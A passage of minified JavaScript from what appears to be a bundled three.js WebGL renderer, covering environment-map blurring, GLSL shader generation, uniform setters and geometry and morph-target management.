n=Math.sqrt(this._sigmas[e]*this._sigmas[e]-this._sigmas[e-1]*this._sigmas[e-1]),r=jr[(i-e-1)%jr.length];this._blur(t,e-1,e,n,r)}e.autoClear=n}_blur(t,e,n,i,r){const a=this._pingPongRenderTarget;this._halfBlur(t,a,e,n,i,"latitudinal",r),this._halfBlur(a,t,n,n,i,"longitudinal",r)}_halfBlur(t,e,n,i,r,a,o){const s=this._renderer,l=this._blurMaterial;"latitudinal"!==a&&"longitudinal"!==a&&console.error("blur direction must be either latitudinal or longitudinal!");const c=new Yi(this._lodPlanes[i],l),h=l.uniforms,u=this._sizeLods[n]-1,d=isFinite(r)?Math.PI/(2*u):2*Math.PI/39,p=r/d,f=isFinite(r)?1+Math.floor(3*p):Ur;f>Ur&&console.warn(`sigmaRadians, ${r}, is too large and will clip, as it requested ${f} samples when the maximum is set to 20`);const m=[];let g=0;for(let t=0;t<Ur;++t){const e=t/p,n=Math.exp(-e*e/2);m.push(n),0===t?g+=n:t<f&&(g+=2*n)}for(let t=0;t<m.length;t++)m[t]=m[t]/g;h.envMap.value=t.texture,h.samples.value=f,h.weights.value=m,h.latitudinal.value="latitudinal"===a,o&&(h.poleAxis.value=o);const{_lodMax:_}=this;h.dTheta.value=d,h.mipInt.value=_-n;const v=this._sizeLods[i];qr(e,3*v*(i>_-4?i-_+4:0),4*(this._cubeSize-v),3*v,2*v),s.setRenderTarget(e),s.render(c,Nr)}}function Xr(t,e,n){const i=new Ve(t,e,n);return i.texture.mapping=O,i.texture.name="PMREM.cubeUv",i.scissorTest=!0,i}function qr(t,e,n,i,r){t.viewport.set(e,n,i,r),t.scissor.set(e,n,i,r)}function Yr(){return new er({name:"EquirectangularToCubeUV",uniforms:{envMap:{value:null}},vertexShader:Zr(),fragmentShader:"\n\n\t\t\tprecision mediump float;\n\t\t\tprecision mediump int;\n\n\t\t\tvarying vec3 vOutputDirection;\n\n\t\t\tuniform sampler2D envMap;\n\n\t\t\t#include <common>\n\n\t\t\tvoid main() {\n\n\t\t\t\tvec3 outputDirection = normalize( vOutputDirection );\n\t\t\t\tvec2 uv = equirectUv( outputDirection );\n\n\t\t\t\tgl_FragColor = vec4( texture2D ( envMap, uv ).rgb, 1.0 );\n\n\t\t\t}\n\t\t",blending:0,depthTest:!1,depthWrite:!1})}function Kr(){return new er({name:"CubemapToCubeUV",uniforms:{envMap:{value:null},flipEnvMap:{value:-1}},vertexShader:Zr(),fragmentShader:"\n\n\t\t\tprecision mediump float;\n\t\t\tprecision mediump int;\n\n\t\t\tuniform float flipEnvMap;\n\n\t\t\tvarying vec3 vOutputDirection;\n\n\t\t\tuniform samplerCube envMap;\n\n\t\t\tvoid main() {\n\n\t\t\t\tgl_FragColor = textureCube( envMap, vec3( flipEnvMap * vOutputDirection.x, vOutputDirection.yz ) );\n\n\t\t\t}\n\t\t",blending:0,depthTest:!1,depthWrite:!1})}function Zr(){return"\n\n\t\tprecision mediump float;\n\t\tprecision mediump int;\n\n\t\tattribute float faceIndex;\n\n\t\tvarying vec3 vOutputDirection;\n\n\t\t// RH coordinate system; PMREM face-indexing convention\n\t\tvec3 getDirection( vec2 uv, float face ) {\n\n\t\t\tuv = 2.0 * uv - 1.0;\n\n\t\t\tvec3 direction = vec3( uv, 1.0 );\n\n\t\t\tif ( face == 0.0 ) {\n\n\t\t\t\tdirection = direction.zyx; // ( 1, v, u ) pos x\n\n\t\t\t} else if ( face == 1.0 ) {\n\n\t\t\t\tdirection = direction.xzy;\n\t\t\t\tdirection.xz *= -1.0; // ( -u, 1, -v ) pos y\n\n\t\t\t} else if ( face == 2.0 ) {\n\n\t\t\t\tdirection.x *= -1.0; // ( -u, v, 1 ) pos z\n\n\t\t\t} else if ( face == 3.0 ) {\n\n\t\t\t\tdirection = direction.zyx;\n\t\t\t\tdirection.xz *= -1.0; // ( -1, v, -u ) neg x\n\n\t\t\t} else if ( face == 4.0 ) {\n\n\t\t\t\tdirection = direction.xzy;\n\t\t\t\tdirection.xy *= -1.0; // ( -u, -1, v ) neg y\n\n\t\t\t} else if ( face == 5.0 ) {\n\n\t\t\t\tdirection.z *= -1.0; // ( u, v, -1 ) neg z\n\n\t\t\t}\n\n\t\t\treturn direction;\n\n\t\t}\n\n\t\tvoid main() {\n\n\t\t\tvOutputDirection = getDirection( uv, faceIndex );\n\t\t\tgl_Position = vec4( position, 1.0 );\n\n\t\t}\n\t"}function $r(t){let e=new WeakMap,n=null;function i(t){const n=t.target;n.removeEventListener("dispose",i);const r=e.get(n);void 0!==r&&(e.delete(n),r.dispose())}return{get:function(r){if(r&&r.isTexture){const a=r.mapping,o=303===a||304===a,s=a===D||a===I;if(o||s){let a=e.get(r);const l=void 0!==a?a.texture.pmremVersion:0;if(r.isRenderTargetTexture&&r.pmremVersion!==l)return null===n&&(n=new Wr(t)),a=o?n.fromEquirectangular(r,a):n.fromCubemap(r,a),a.texture.pmremVersion=r.pmremVersion,e.set(r,a),a.texture;if(void 0!==a)return a.texture;{const l=r.image;return o&&l&&l.height>0||s&&l&&function(t){let e=0;const n=6;for(let i=0;i<n;i++)void 0!==t[i]&&e++;return e===n}(l)?(null===n&&(n=new Wr(t)),a=o?n.fromEquirectangular(r):n.fromCubemap(r),a.texture.pmremVersion=r.pmremVersion,e.set(r,a),r.addEventListener("dispose",i),a.texture):null}}}return r},dispose:function(){e=new WeakMap,null!==n&&(n.dispose(),n=null)}}}function Jr(t){const e={};function n(n){if(void 0!==e[n])return e[n];let i;switch(n){case"WEBGL_depth_texture":i=t.getExtension("WEBGL_depth_texture")||t.getExtension("MOZ_WEBGL_depth_texture")||t.getExtension("WEBKIT_WEBGL_depth_texture");break;case"EXT_texture_filter_anisotropic":i=t.getExtension("EXT_texture_filter_anisotropic")||t.getExtension("MOZ_EXT_texture_filter_anisotropic")||t.getExtension("WEBKIT_EXT_texture_filter_anisotropic");break;case"WEBGL_compressed_texture_s3tc":i=t.getExtension("WEBGL_compressed_texture_s3tc")||t.getExtension("MOZ_WEBGL_compressed_texture_s3tc")||t.getExtension("WEBKIT_WEBGL_compressed_texture_s3tc");break;case"WEBGL_compressed_texture_pvrtc":i=t.getExtension("WEBGL_compressed_texture_pvrtc")||t.getExtension("WEBKIT_WEBGL_compressed_texture_pvrtc");break;default:i=t.getExtension(n)}return e[n]=i,i}return{has:function(t){return null!==n(t)},init:function(){n("EXT_color_buffer_float"),n("WEBGL_clip_cull_distance"),n("OES_texture_float_linear"),n("EXT_color_buffer_half_float"),n("WEBGL_multisampled_render_to_texture"),n("WEBGL_render_shared_exponent")},get:function(t){const e=n(t);return null===e&&we("THREE.WebGLRenderer: "+t+" extension not supported."),e}}}function Qr(t,e,n,i){const r={},a=new WeakMap;function o(t){const s=t.target;null!==s.index&&e.remove(s.index);for(const t in s.attributes)e.remove(s.attributes[t]);for(const t in s.morphAttributes){const n=s.morphAttributes[t];for(let t=0,i=n.length;t<i;t++)e.remove(n[t])}s.removeEventListener("dispose",o),delete r[s.id];const l=a.get(s);l&&(e.remove(l),a.delete(s)),i.releaseStatesOfGeometry(s),!0===s.isInstancedBufferGeometry&&delete s._maxInstanceCount,n.memory.geometries--}function s(t){const n=[],i=t.index,r=t.attributes.position;let o=0;if(null!==i){const t=i.array;o=i.version;for(let e=0,i=t.length;e<i;e+=3){const i=t[e+0],r=t[e+1],a=t[e+2];n.push(i,r,r,a,a,i)}}else{if(void 0===r)return;{const t=r.array;o=r.version;for(let e=0,i=t.length/3-1;e<i;e+=3){const t=e+0,i=e+1,r=e+2;n.push(t,i,i,r,r,t)}}}const s=new(be(n)?bi:xi)(n,1);s.version=o;const l=a.get(t);l&&e.remove(l),a.set(t,s)}return{get:function(t,e){return!0===r[e.id]||(e.addEventListener("dispose",o),r[e.id]=!0,n.memory.geometries++),e},update:function(n){const i=n.attributes;for(const n in i)e.update(i[n],t.ARRAY_BUFFER);const r=n.morphAttributes;for(const n in r){const i=r[n];for(let n=0,r=i.length;n<r;n++)e.update(i[n],t.ARRAY_BUFFER)}},getWireframeAttribute:function(t){const e=a.get(t);if(e){const n=t.index;null!==n&&e.version<n.version&&s(t)}else s(t);return a.get(t)}}}function ta(t,e,n){let i,r,a;function o(e,o,s){0!==s&&(t.drawElementsInstanced(i,o,r,e*a,s),n.update(o,i,s))}this.setMode=function(t){i=t},this.setIndex=function(t){r=t.type,a=t.bytesPerElement},this.render=function(e,o){t.drawElements(i,o,r,e*a),n.update(o,i,1)},this.renderInstances=o,this.renderMultiDraw=function(t,a,o){if(0===o)return;e.get("WEBGL_multi_draw").multiDrawElementsWEBGL(i,a,0,r,t,0,o);let s=0;for(let t=0;t<o;t++)s+=a[t];n.update(s,i,1)},this.renderMultiDrawInstances=function(t,s,l,c){if(0===l)return;const h=e.get("WEBGL_multi_draw");if(null===h)for(let e=0;e<t.length;e++)o(t[e]/a,s[e],c[e]);else{h.multiDrawElementsInstancedWEBGL(i,s,0,r,t,0,c,0,l);let e=0;for(let t=0;t<l;t++)e+=s[t];for(let t=0;t<c.length;t++)n.update(e,i,c[t])}}}function ea(t){const e={frame:0,calls:0,triangles:0,points:0,lines:0};return{memory:{geometries:0,textures:0},render:e,programs:null,autoReset:!0,reset:function(){e.calls=0,e.triangles=0,e.points=0,e.lines=0},update:function(n,i,r){switch(e.calls++,i){case t.TRIANGLES:e.triangles+=r*(n/3);break;case t.LINES:e.lines+=r*(n/2);break;case t.LINE_STRIP:e.lines+=r*(n-1);break;case t.LINE_LOOP:e.lines+=r*n;break;case t.POINTS:e.points+=r*n;break;default:console.error("THREE.WebGLInfo: Unknown draw mode:",i)}}}}function na(t,e,n){const i=new WeakMap,r=new Be;return{update:function(a,o,s){const l=a.morphTargetInfluences,c=o.morphAttributes.position||o.morphAttributes.normal||o.morphAttributes.color,h=void 0!==c?c.length:0;let u=i.get(o);if(void 0===u||u.count!==h){void 0!==u&&u.texture.dispose();const d=void 0!==o.morphAttributes.position,p=void 0!==o.morphAttributes.normal,f=void 0!==o.morphAttributes.color,m=o.morphAttributes.position||[],g=o.morphAttributes.normal||[],_=o.morphAttributes.color||[];let v=0;!0===d&&(v=1),!0===p&&(v=2),!0===f&&(v=3);let y=o.attributes.position.count*v,x=1;y>e.maxTextureSize&&(x=Math.ceil(y/e.maxTextureSize),y=e.maxTextureSize);const b=new Float32Array(y*x*4*h),M=new Ge(b,y,x,h);M.type=Z,M.needsUpdate=!0;const S=4*v;for(let w=0;w<h;w++){const T=m[w],A=g[w],C=_[w],R=y*x*4*w;for(let P=0;P<T.count;P++){const L=P*S;!0===d&&(r.fromBufferAttribute(T,P),b[R+L+0]=r.x,b[R+L+1]=r.y,b[R+L+2]=r.z,b[R+L+3]=0),!0===p&&(r.fromBufferAttribute(A,P),b[R+L+4]=r.x,b[R+L+5]=r.y,b[R+L+6]=r.z,b[R+L+7]=0),!0===f&&(r.fromBufferAttribute(C,P),b[R+L+8]=r.x,b[R+L+9]=r.y,b[R+L+10]=r.z,b[R+L+11]=4===C.itemSize?r.w:1)}}function E(){M.dispose(),i.delete(o),o.removeEventListener("dispose",E)}u={count:h,texture:M,size:new ve(y,x)},i.set(o,u),o.addEventListener("dispose",E)}if(!0===a.isInstancedMesh&&null!==a.morphTexture)s.getUniforms().setValue(t,"morphTexture",a.morphTexture,n);else{let D=0;for(let O=0;O<l.length;O++)D+=l[O];const I=o.morphTargetsRelative?1:1-D;s.getUniforms().setValue(t,"morphTargetBaseInfluence",I),s.getUniforms().setValue(t,"morphTargetInfluences",l)}s.getUniforms().setValue(t,"morphTargetsTexture",u.texture,n),s.getUniforms().setValue(t,"morphTargetsTextureSize",u.size)}}}function ia(t,e,n,i){let r=new WeakMap;function a(t){const e=t.target;e.removeEventListener("dispose",a),n.remove(e.instanceMatrix),null!==e.instanceColor&&n.remove(e.instanceColor)}return{update:function(o){const s=i.render.frame,l=o.geometry,c=e.get(o,l);if(r.get(c)!==s&&(e.update(c),r.set(c,s)),o.isInstancedMesh&&(!1===o.hasEventListener("dispose",a)&&o.addEventListener("dispose",a),r.get(o)!==s&&(n.update(o.instanceMatrix,t.ARRAY_BUFFER),null!==o.instanceColor&&n.update(o.instanceColor,t.ARRAY_BUFFER),r.set(o,s))),o.isSkinnedMesh){const t=o.skeleton;r.get(t)!==s&&(t.update(),r.set(t,s))}return c},dispose:function(){r=new WeakMap}}}class ra extends ze{constructor(t,e,n,i,r,a,o,s,l,c=1026){if(c!==it&&c!==rt)throw new Error("DepthTexture format must be either THREE.DepthFormat or THREE.DepthStencilFormat");void 0===n&&c===it&&(n=K),void 0===n&&c===rt&&(n=tt),super(null,i,r,a,o,s,c,n,l),this.isDepthTexture=!0,this.image={width:t,height:e},this.magFilter=void 0!==o?o:k,this.minFilter=void 0!==s?s:k,this.flipY=!1,this.generateMipmaps=!1,this.compareFunction=null}copy(t){return super.copy(t),this.compareFunction=t.compareFunction,this}toJSON(t){const e=super.toJSON(t);return null!==this.compareFunction&&(e.compareFunction=this.compareFunction),e}}const aa=new ze,oa=new ra(1,1),sa=new Ge,la=new je,ca=new cr,ha=[],ua=[],da=new Float32Array(16),pa=new Float32Array(9),fa=new Float32Array(4);function ma(t,e,n){const i=t[0];if(i<=0||i>0)return t;const r=e*n;let a=ha[r];if(void 0===a&&(a=new Float32Array(r),ha[r]=a),0!==e){i.toArray(a,0);for(let i=1,r=0;i!==e;++i)r+=n,t[i].toArray(a,r)}return a}function ga(t,e){if(t.length!==e.length)return!1;for(let n=0,i=t.length;n<i;n++)if(t[n]!==e[n])return!1;return!0}function _a(t,e){for(let n=0,i=e.length;n<i;n++)t[n]=e[n]}function va(t,e){let n=ua[e];void 0===n&&(n=new Int32Array(e),ua[e]=n);for(let i=0;i!==e;++i)n[i]=t.allocateTextureUnit();return n}function ya(t,e){const n=this.cache;n[0]!==e&&(t.uniform1f(this.addr,e),n[0]=e)}function xa(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y||(t.uniform2f(this.addr,e.x,e.y),n[0]=e.x,n[1]=e.y);else{if(ga(n,e))return;t.uniform2fv(this.addr,e),_a(n,e)}}function ba(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y&&n[2]===e.z||(t.uniform3f(this.addr,e.x,e.y,e.z),n[0]=e.x,n[1]=e.y,n[2]=e.z);else if(void 0!==e.r)n[0]===e.r&&n[1]===e.g&&n[2]===e.b||(t.uniform3f(this.addr,e.r,e.g,e.b),n[0]=e.r,n[1]=e.g,n[2]=e.b);else{if(ga(n,e))return;t.uniform3fv(this.addr,e),_a(n,e)}}function Ma(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y&&n[2]===e.z&&n[3]===e.w||(t.uniform4f(this.addr,e.x,e.y,e.z,e.w),n[0]=e.x,n[1]=e.y,n[2]=e.z,n[3]=e.w);else{if(ga(n,e))return;t.uniform4fv(this.addr,e),_a(n,e)}}function Sa(t,e){const n=this.cache,i=e.elements;if(void 0===i){if(ga(n,e))return;t.uniformMatrix2fv(this.addr,!1,e),_a(n,e)}else{if(ga(n,i))return;fa.set(i),t.uniformMatrix2fv(this.addr,!1,fa),_a(n,i)}}function Ea(t,e){const n=this.cache,i=e.elements;if(void 0===i){if(ga(n,e))return;t.uniformMatrix3fv(this.addr,!1,e),_a(n,e)}else{if(ga(n,i))return;pa.set(i),t.uniformMatrix3fv(this.addr,!1,pa),_a(n,i)}}function wa(t,e){const n=this.cache,i=e.elements;if(void 0===i){if(ga(n,e))return;t.uniformMatrix4fv(this.addr,!1,e),_a(n,e)}else{if(ga(n,i))return;da.set(i),t.uniformMatrix4fv(this.addr,!1,da),_a(n,i)}}function Ta(t,e){const n=this.cache;n[0]!==e&&(t.uniform1i(this.addr,e),n[0]=e)}function Aa(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y||(t.uniform2i(this.addr,e.x,e.y),n[0]=e.x,n[1]=e.y);else{if(ga(n,e))return;t.uniform2iv(this.addr,e),_a(n,e)}}function Ca(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y&&n[2]===e.z||(t.uniform3i(this.addr,e.x,e.y,e.z),n[0]=e.x,n[1]=e.y,n[2]=e.z);else{if(ga(n,e))return;t.uniform3iv(this.addr,e),_a(n,e)}}function Ra(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y&&n[2]===e.z&&n[3]===e.w||(t.uniform4i(this.addr,e.x,e.y,e.z,e.w),n[0]=e.x,n[1]=e.y,n[2]=e.z,n[3]=e.w);else{if(ga(n,e))return;t.uniform4iv(this.addr,e),_a(n,e)}}function Pa(t,e){const n=this.cache;n[0]!==e&&(t.uniform1ui(this.addr,e),n[0]=e)}function La(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y||(t.uniform2ui(this.addr,e.x,e.y),n[0]=e.x,n[1]=e.y);else{if(ga(n,e))return;t.uniform2uiv(this.addr,e),_a(n,e)}}function Da(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y&&n[2]===e.z||(t.uniform3ui(this.addr,e.x,e.y,e.z),n[0]=e.x,n[1]=e.y,n[2]=e.z);else{if(ga(n,e))return;t.uniform3uiv(this.addr,e),_a(n,e)}}function Ia(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y&&n[2]===e.z&&n[3]===e.w||(t.uniform4ui(this.addr,e.x,e.y,e.z,e.w),n[0]=e.x,n[1]=e.y,n[2]=e.z,n[3]=e.w);else{if(ga(n,e))return;t.uniform4uiv(this.addr,e),_a(n,e)}}function Oa(t,e,n){const i=this.cache,r=n.allocateTextureUnit();let a;i[0]!==r&&(t.uniform1i(this.addr,r),i[0]=r),this.type===t.SAMPLER_2D_SHADOW?(oa.compareFunction=515,a=oa):a=aa,n.setTexture2D(e||a,r)}function Ua(t,e,n){const i=this.cache,r=n.allocateTextureUnit();i[0]!==r&&(t.uniform1i(this.addr,r),i[0]=r),n.setTexture3D(e||la,r)}function Na(t,e,n){const i=this.cache,r=n.allocateTextureUnit();i[0]!==r&&(t.uniform1i(this.addr,r),i[0]=r),n.setTextureCube(e||ca,r)}function Fa(t,e,n){const i=this.cache,r=n.allocateTextureUnit();i[0]!==r&&(t.uniform1i(this.addr,r),i[0]=r),n.setTexture2DArray(e||sa,r)}function ka(t,e){t.uniform1fv(this.addr,e)}function za(t,e){const n=ma(e,this.size,2);t.uniform2fv(this.addr,n)}function Ba(t,e){const n=ma(e,this.size,3);t.uniform3fv(this.addr,n)}function Ha(t,e){const n=ma(e,this.size,4);t.uniform4fv(this.addr,n)}function Va(t,e){const n=ma(e,this.size,4);t.uniformMatrix2fv(this.addr,!1,n)}function Ga(t,e){const n=ma(e,this.size,9);t.uniformMatrix3fv(this.addr,!1,n)}function ja(t,e){const n=ma(e,this.size,16);t.uniformMatrix4fv(this.addr,!1,n)}function Wa(t,e){t.uniform1iv(this.addr,e)}function Xa(t,e){t.uniform2iv(this.addr,e)}function qa(t,e){t.uniform3iv(this.addr,e)}function Ya(t,e){t.uniform4iv(this.addr,e)}function Ka(t,e){t.uniform1uiv(this.addr,e)}function Za(t,e){t.uniform2uiv(this.addr,e)}function $a(t,e){t.uniform3uiv(this.addr,e)}function Ja(t,e){t.uniform4uiv(this.addr,e)}function Qa(t,e,n){const i=this.cache,r=e.length,a=va(n,r);ga(i,a)||(t.uniform1iv(this.addr,a),_a(i,a));for(let t=0;t!==r;++t)n.setTexture2D(e[t]||aa,a[t])}function to(t,e,n){const i=this.cache,r=e.length,a=va(n,r);ga(i,a)||(t.uniform1iv(this.addr,a),_a(i,a));for(let t=0;t!==r;++t)n.setTexture3D(e[t]||la,a[t])}function eo(t,e,n){const i=this.cache,r=e.length,a=va(n,r);ga(i,a)||(t.uniform1iv(this.addr,a),_a(i,a));for(let t=0;t!==r;++t)n.setTextureCube(e[t]||ca,a[t])}function no(t,e,n){const i=this.cache,r=e.length,a=va(n,r);ga(i,a)||(t.uniform1iv(this.addr,a),_a(i,a));for(let t=0;t!==r;++t)n.setTexture2DArray(e[t]||sa,a[t])}class io{constructor(t,e,n){this.id=t,this.addr=n,this.cache=[],this.type=e.type,this.setValue=function(t){switch(t){case 5126:return ya;case 35664:return xa;case 35665:return ba;case 35666:return Ma;case 35674:return Sa;case 35675:return Ea;case 35676:return wa;case 5124:case 35670:return Ta;case 35667:case 35671:return Aa;case 35668:case 35672:return Ca;case 35669:case 35673:return Ra;case 5125:return Pa;case 36294:return La;case 36295:return Da;case 36296:return Ia;case 35678:case 36198:case 36298:case 36306:case 35682:return Oa;case 35679:case 36299:case 36307:return Ua;case 35680:case 36300:case 36308:case 36293:return Na;case 36289:case 36303:case 36311:case 36292:return Fa}}(e.type)}}class ro{constructor(t,e,n){this.id=t,this.addr=n,this.cache=[],this.type=e.type,this.size=e.size,this.setValue=function(t){switch(t){case 5126:return ka;case 35664:return za;case 35665:return Ba;case 35666:return Ha;case 35674:return Va;case 35675:return Ga;case 35676:return ja;case 5124:case 35670:return Wa;case 35667:case 35671:return Xa;case 35668:case 35672:return qa;case 35669:case 35673:return Ya;case 5125:return Ka;case 36294:return Za;case 36295:return $a;case 36296:return Ja;case 35678:case 36198:case 36298:case 36306:case 35682:return Qa;case 35679:case 36299:case 36307:return to;case 35680:case 36300:case 36308:case 36293:return eo;case 36289:case 36303:case 36311:case 36292:return no}}(e.type)}}class ao{constructor(t){this.id=t,this.seq=[],this.map={}}setValue(t,e,n){const i=this.seq;for(let r=0,a=i.length;r!==a;++r){const a=i[r];a.setValue(t,e[a.id],n)}}}const oo=/(\w+)(\])?(\[|\.)?/g;function so(t,e){t.seq.push(e),t.map[e.id]=e}function lo(t,e,n){const i=t.name,r=i.length;for(oo.lastIndex=0;;){const a=oo.exec(i),o=oo.lastIndex;let s=a[1];const l="]"===a[2],c=a[3];if(l&&(s|=0),void 0===c||"["===c&&o+2===r){so(n,void 0===c?new io(s,t,e):new ro(s,t,e));break}{let t=n.map[s];void 0===t&&(t=new ao(s),so(n,t)),n=t}}}class co{constructor(t,e){this.seq=[],this.map={};const n=t.getProgramParameter(e,t.ACTIVE_UNIFORMS);for(let i=0;i<n;++i){const n=t.getActiveUniform(e,i);lo(n,t.getUniformLocation(e,n.name),this)}}setValue(t,e,n,i){const r=this.map[e];void 0!==r&&r.setValue(t,n,i)}setOptional(t,e,n){const i=e[n];void 0!==i&&this.setValue(t,n,i)}static upload(t,e,n,i){for(let r=0,a=e.length;r!==a;++r){const a=e[r],o=n[a.id];!1!==o.needsUpdate&&a.setValue(t,o.value,i)}}static seqWithValue(t,e){const n=[];for(let i=0,r=t.length;i!==r;++i){const r=t[i];r.id in e&&n.push(r)}return n}}function ho(t,e,n){const i=t.createShader(e);return t.shaderSource(i,n),t.compileShader(i),i}let uo=0;function po(t,e,n){const i=t.getShaderParameter(e,t.COMPILE_STATUS),r=t.getShaderInfoLog(e).trim();if(i&&""===r)return"";const a=/ERROR: 0:(\d+)/.exec(r);if(a){const i=parseInt(a[1]);return n.toUpperCase()+"\n\n"+r+"\n\n"+function(t,e){const n=t.split("\n"),i=[],r=Math.max(e-6,0),a=Math.min(e+6,n.length);for(let t=r;t<a;t++){const r=t+1;i.push(`${r===e?">":" "} ${r}: ${n[t]}`)}return i.join("\n")}(t.getShaderSource(e),i)}return r}function fo(t,e){const n=function(t){const e=Pe.getPrimaries(Pe.workingColorSpace),n=Pe.getPrimaries(t);let i;switch(e===n?i="":e===qt&&n===Xt?i="LinearDisplayP3ToLinearSRGB":e===Xt&&n===qt&&(i="LinearSRGBToLinearDisplayP3"),t){case Ht:case Gt:return[i,"LinearTransferOETF"];case Bt:case Vt:return[i,"sRGBTransferOETF"];default:return console.warn("THREE.WebGLProgram: Unsupported color space:",t),[i,"LinearTransferOETF"]}}(e);return`vec4 ${t}( vec4 value ) { return ${n[0]}( ${n[1]}( value ) ); }`}function mo(t,e){let n;switch(e){case 1:n="Linear";break;case 2:n="Reinhard";break;case 3:n="Cineon";break;case 4:n="ACESFilmic";break;case 6:n="AgX";break;case 7:n="Neutral";break;case 5:n="Custom";break;default:console.warn("THREE.WebGLProgram: Unsupported toneMapping:",e),n="Linear"}return"vec3 "+t+"( vec3 color ) { return "+n+"ToneMapping( color ); }"}const go=new Xe;function _o(){Pe.getLuminanceCoefficients(go);return["float luminance( const in vec3 rgb ) {",`\tconst vec3 weights = vec3( ${go.x.toFixed(4)}, ${go.y.toFixed(4)}, ${go.z.toFixed(4)} );`,"\treturn dot( weights, rgb );","}"].join("\n")}function vo(t){return""!==t}function yo(t,e){const n=e.numSpotLightShadows+e.numSpotLightMaps-e.numSpotLightShadowsWithMaps;return t.replace(/NUM_DIR_LIGHTS/g,e.numDirLights).replace(/NUM_SPOT_LIGHTS/g,e.numSpotLights).replace(/NUM_SPOT_LIGHT_MAPS/g,e.numSpotLightMaps).replace(/NUM_SPOT_LIGHT_COORDS/g,n).replace(/NUM_RECT_AREA_LIGHTS/g,e.numRectAreaLights).replace(/NUM_POINT_LIGHTS/g,e.numPointLights).replace(/NUM_HEMI_LIGHTS/g,e.numHemiLights).replace(/NUM_DIR_LIGHT_SHADOWS/g,e.numDirLightShadows).replace(/NUM_SPOT_LIGHT_SHADOWS_WITH_MAPS/g,e.numSpotLightShadowsWithMaps).replace(/NUM_SPOT_LIGHT_SHADOWS/g,e.numSpotLightShadows).replace(/NUM_POINT_LIGHT_SHADOWS/g,e.numPointLightShadows)}function xo(t,e){return t.replace(/NUM_CLIPPING_PLANES/g,e.numClippingPlanes).replace(/UNION_CLIPPING_PLANES/g,e.numClippingPlanes-e.numClipIntersection)}const bo=/^[ \t]*#include +<([\w\d./]+)>/gm;function Mo(t){return t.replace(bo,Eo)}const So=new Map;function Eo(t,e){let n=br[e];if(void 0===n){const t=So.get(e);if(void 0===t)throw new Error("Can not resolve #include <"+e+">");n=br[t],console.warn('THREE.WebGLRenderer: Shader chunk "%s" has been deprecated. Use "%s" instead.',e,t)}return Mo(n)}const wo=/#pragma unroll_loop_start\s+for\s*\(\s*int\s+i\s*=\s*(\d+)\s*;\s*i\s*<\s*(\d+)\s*;\s*i\s*\+\+\s*\)\s*{([\s\S]+?)}\s+#pragma unroll_loop_end/g;function To(t){return t.replace(wo,Ao)}function Ao(t,e,n,i){let r="";for(let t=parseInt(e);t<parseInt(n);t++)r+=i.replace(/\[\s*i\s*\]/g,"[ "+t+" ]").replace(/UNROLLED_LOOP_INDEX/g,t);return r}function Co(t){let e=`precision ${t.precision} float;\n\tprecision ${t.precision} int;\n\tprecision ${t.precision} sampler2D;\n\tprecision ${t.precision} samplerCube;\n\tprecision ${t.precision} sampler3D;\n\tprecision ${t.precision} sampler2DArray;\n\tprecision ${t.precision} sampler2DShadow;\n\tprecision ${t.precision} samplerCubeShadow;\n\tprecision ${t.precision} sampler2DArrayShadow;\n\tprecision ${t.precision} isampler2D;\n\tprecision ${t.precision} isampler3D;\n\tprecision ${t.precision} isamplerCube;\n\tprecision ${t.precision} isampler2DArray;\n\tprecision ${t.precision} usampler2D;\n\tprecision ${t.precision} usampler3D;\n\tprecision ${t.precision} usamplerCube;\n\tprecision ${t.precision} usampler2DArray;\n\t`;return"highp"===t.precision?e+="\n#define HIGH_PRECISION":"mediump"===t.precision?e+="\n#define MEDIUM_PRECISION":"lowp"===t.precision&&(e+="\n#define LOW_PRECISION"),e}function Ro(t,e,n,i){const r=t.getContext(),a=n.defines;let o=n.vertexShader,s=n.fragmentShader;const l=function(t){let e="SHADOWMAP_TYPE_BASIC";return 1===t.shadowMapType?e="SHADOWMAP_TYPE_PCF":2===t.shadowMapType?e="SHADOWMAP_TYPE_PCF_SOFT":3===t.shadowMapType&&(e="SHADOWMAP_TYPE_VSM"),e}(n),c=function(t){let e="ENVMAP_TYPE_CUBE";if(t.envMap)switch(t.envMapMode){case D:case I:e="ENVMAP_TYPE_CUBE";break;case O:e="ENVMAP_TYPE_CUBE_UV"}return e}(n),h=function(t){let e="ENVMAP_MODE_REFLECTION";t.envMap&&t.envMapMode===I&&(e="ENVMAP_MODE_REFRACTION");return e}(n),u=function(t){let e="ENVMAP_BLENDING_NONE";if(t.envMap)switch(t.combine){case 0:e="ENVMAP_BLENDING_MULTIPLY";break;case 1:e="ENVMAP_BLENDING_MIX";break;case 2:e="ENVMAP_BLENDING_ADD"}return e}(n),d=function(t){const e=t.envMapCubeUVHeight;if(null===e)return null;const n=Math.log2(e)-2,i=1/e;return{texelWidth:1/(3*Math.max(Math.pow(2,n),112)),texelHeight:i,maxMip:n}}(n),p=function(t){return[t.extensionClipCullDistance?"#extension GL_ANGLE_clip_cull_distance : require":"",t.extensionMultiDraw?"#extension GL_ANGLE_multi_draw : require":""].filter(vo).join("\n")}(n),f=function(t){const e=[];for(const n in t){const i=t[n];!1!==i&&e.push("#define "+n+" "+i)}return e.join("\n")}(a),m=r.createProgram();let g,_,v=n.glslVersion?"#version "+n.glslVersion+"\n":"";n.isRawShaderMaterial?(g=["#define SHADER_TYPE "+n.shaderType,"#define SHADER_NAME "+n.shaderName,f].filter(vo).join("\n"),g.length>0&&(g+="\n"),_=["#define SHADER_TYPE "+n.shaderType,"#define SHADER_NAME "+n.shaderName,f].filter(vo).join("\n"),_.length>0&&(_+="\n")):(g=[Co(n),"#define SHADER_TYPE "+n.shaderType,"#define SHADER_NAME "+n.shaderName,f,n.extensionClipCullDistance?"#define USE_CLIP_DISTANCE":"",n.batching?"#define USE_BATCHING":"",n.batchingColor?"#define USE_BATCHING_COLOR":"",n.instancing?"#define USE_INSTANCING":"",n.instancingColor?"#define USE_INSTANCING_COLOR":"",n.instancingMorph?"#define 